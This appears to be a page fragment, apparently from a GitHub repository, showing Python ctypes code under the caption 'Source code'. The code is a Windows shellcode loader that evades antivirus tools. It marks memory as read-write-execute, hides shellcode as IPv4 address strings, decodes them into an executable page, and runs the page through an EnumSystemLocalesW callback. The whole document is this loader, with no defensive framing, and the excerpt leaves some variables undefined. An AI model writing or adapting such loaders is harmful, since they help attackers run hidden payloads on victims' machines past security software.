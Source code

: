 ```python
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 4 * 16), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 4):
    bytes_shellcode = shellcode[i * 4: 4 + i * 4]
    ctypes.windll.Ntdll.RtlIpv4AddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 16)

ipv4_list = []
for i in range(len(shellcode) // 4):
    ipv4 = ctypes.string_at(ptr_realloc_1 + i * 16, 16)
    ipv4_list.append(ipv4)
print(ipv4_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(ipv4_list)):
    ctypes.windll.Ntdll.RtlIpv4StringToAddressA(ipv4_list[i], False, ipv4_list[i], rwxpage)
    rwxpage += 4

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```

![](img/11.png)
